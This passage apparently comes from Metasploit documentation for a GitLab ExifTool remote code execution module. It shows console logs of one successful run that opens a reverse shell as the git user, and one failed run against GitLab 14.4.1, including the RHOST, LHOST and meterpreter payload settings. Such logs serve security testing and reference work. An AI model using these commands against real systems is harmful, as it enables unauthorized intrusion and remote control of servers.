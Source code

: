 ```
[*] Matching...
[*] B is input...
[+] Exploit successfully executed.
[*] Command shell session 1 opened (10.0.0.9:4444 -> 10.0.0.3:44304 ) at 2021-11-02 01:35:07 -0700

whoami
git
id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-workhorse
```

### GitLab 14.4.1 on Ubuntu 20.04.2 x64. Unable to exploit.

```
msf6 > use exploits/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf6 exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf6 exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading NUvUyPiyKL3.jpg to /PT2hiCf47
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. The error response indicates ExifTool was not run. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/gitlab_exif_rce) >
```
